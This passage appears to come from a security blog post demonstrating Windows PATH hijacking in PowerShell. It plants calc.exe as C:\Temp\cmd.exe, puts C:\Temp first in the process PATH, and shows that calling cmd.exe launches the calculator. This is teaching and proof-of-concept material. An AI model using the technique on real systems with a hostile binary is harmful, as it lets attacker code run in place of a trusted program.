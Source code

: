 Copy `calc.exe` to `C:\Temp\cmd.exe`:

```powershell
PS C:\Windows\system32> where.exe calc.exe
C:\Windows\System32\calc.exe

PS C:\Windows\system32> copy C:\Windows\System32\calc.exe C:\Temp\cmd.exe
```

Change the `$PATH` environment variable of the current process:

```powershell
PS C:\> $env:Path = "C:\Temp;$env:Path"
PS C:\> ($env:Path).split(";")
C:\Temp
C:\Windows\system32
C:\Windows
C:\Windows\System32\Wbem
C:\Windows\System32\WindowsPowerShell\v1.0\
C:\Windows\System32\OpenSSH\
C:\Program Files\dotnet\
```

> Note: Remember this is the PATH environment variable of our current process, if this executable was executed by a Service, Task Scheduler, or something else. We would need to use the system %PATH% environment variable instead, depending on the configuration.

Review which `cmd.exe` will be loaded first:

```powershell
PS C:\> cd \
PS C:\> where.exe cmd.exe
C:\Temp\cmd.exe
C:\Windows\System32\cmd.exe
```

Because the directory "`C:\Temp`" is before "`C:\Windows\system32\`" in the PATH environment variable, the next time the user runs "cmd.exe", our calculator will run, instead of the legitimate one in the system32 folder.

```powershell
cmd.exe
```

As expected the calculator was spawned:

{{< image src="/images/posts/calculator.png" caption="Calculator " src_s="/images/posts/calculator.png" src_l="/images/posts/calculator.png" >}}

Now, let's try it with the same binary (cmd.exe):

```powershell
PS C:\> copy C:\Windows\System32\cmd.exe C:\Temp\cmd.exe
```

Execute the cmd.exe again:

```powershell
PS C:\> cmd.exe
The system cannot find message text for message number 0x2350 in the message file for Application.

(c) Microsoft Corporation. All rights reserved.
Not enough memory resources are available to process this command.
```
